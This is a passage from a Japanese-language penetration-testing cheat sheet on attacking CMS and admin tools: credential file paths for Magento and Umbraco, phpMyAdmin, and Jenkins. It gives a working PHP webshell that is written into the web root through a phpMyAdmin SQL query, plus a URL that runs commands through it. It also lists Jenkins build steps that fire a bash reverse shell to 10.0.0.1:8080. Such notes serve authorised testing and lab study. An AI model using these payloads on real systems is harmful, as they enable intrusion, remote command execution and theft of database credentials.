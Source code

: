 ```
      'prefix' => '',
    ),
  ),
);
```

### Magento
#### チェック項目
```
# DBのアカウント情報などを確認(MySQL)
app/etc/local.xml
```

#### magescan
magescan:  
https://github.com/steverobbins/magescan.git

### Umbraco
#### 認証情報ファイル
```
/App_Data/Umbraco.sdf
```

## phpMyAdmin
MySQLサーバをWebブラウザで管理するためのデータベース接続ツール。  
SQL文を記述することなく、MySQLの操作が行える。  
WordPressのデータベースを管理できる場合、パスワードの変更などが可能。
WordPress用のパスワード作成には以下のサイトなどを利用する。  
https://www.useotools.com/ja/wordpress-password-hash-generator  

phpMyAdminの設定次第ではSQLタブ内に、下記のようなWebshellを埋め込むことが可能。
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET[\'cmd\']);}​​ ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```
```
http://test.com/phpMyAdmin/cmd.php?cmd=ls
```

## Jenkins
### 　既知のエクスプロイト
pwn_jenkins:  
https://github.com/gquere/pwn_jenkins
### プロジェクトを作成してRCE
1.[New Item]→[Freestyle project]を選択して[Enter an item name]に名前を入力する。(testなど)
2.[Build]の中にあるタブからWindowsなら[Execute Windows batch command]、Linuxなら[Execute shell]を選択する。
3.[Command]にreverse shellペイロードを書き込んで[Save]を押下する。
　(bash -i >& /dev/tcp/10.0.0.1/8080 0>&1など)
4.最後に[Build Now]を押下すると、ペイロードが発火する。
### Grooby scriptを利用したRCE
1./scriptに移動する。  
2.Script Consoleに各OSに準じたスクリプトを書き込んで[Run]を押下する。  
